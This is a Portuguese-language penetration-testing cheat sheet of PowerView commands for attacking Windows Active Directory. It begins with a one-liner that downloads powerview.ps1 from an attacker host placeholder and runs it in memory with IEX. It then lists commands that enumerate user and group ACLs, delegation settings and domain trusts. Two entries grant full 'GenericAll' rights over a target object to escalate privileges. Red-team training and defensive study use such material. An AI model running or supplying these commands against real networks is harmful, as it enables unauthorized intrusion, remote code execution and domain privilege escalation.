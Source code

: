 # powerview

% ad, windows, powerview

## carrega a partir de um local remoto
#plateform/windows #target/remote  #cat/RECON 

https://github.com/PowerShellMafia/PowerSploit/

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Obter usuário pelo SID
#plateform/windows #target/remote  #cat/RECON 
```powershell
ConvertFrom-SID <sid>
```

## Identificar ACL do usuário 
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-ObjectAcl -Identity <user> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

## Identificar ACL de todos os usuários do domínio
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Adicionar DACL de usuário.
#plateform/windows #target/remote  #cat/ATTACK
```powershell
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <current_user> -Rights All
```

## Identifica todos os grupos que o usuário atual obteve acesso
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Identifica todos os usuários que o usuário atual obteve acesso
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

## Adicione a permissão GenericAll para um usuario alvo
#plateform/windows #target/remote  #cat/ATTACK/EXPLOIT 
```powerview
Add-DomainObjectAcl -TargetIdentity <target> -PrincipalIdentity <user> -Rights All
```

## Obter todos computadores com delegação irrestrita
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainComputer -Unconstrained
```

## Obter todas as relações de confiança do domínio
#plateform/windows #target/remote  #cat/RECON 
```powershell
Get-DomainTrustMapping
```

## Obter membro do grupo
## Get group member
```powershell
Get-DomainGroupMember -Identity "<group|Administrators>" -Domain <domain>
```

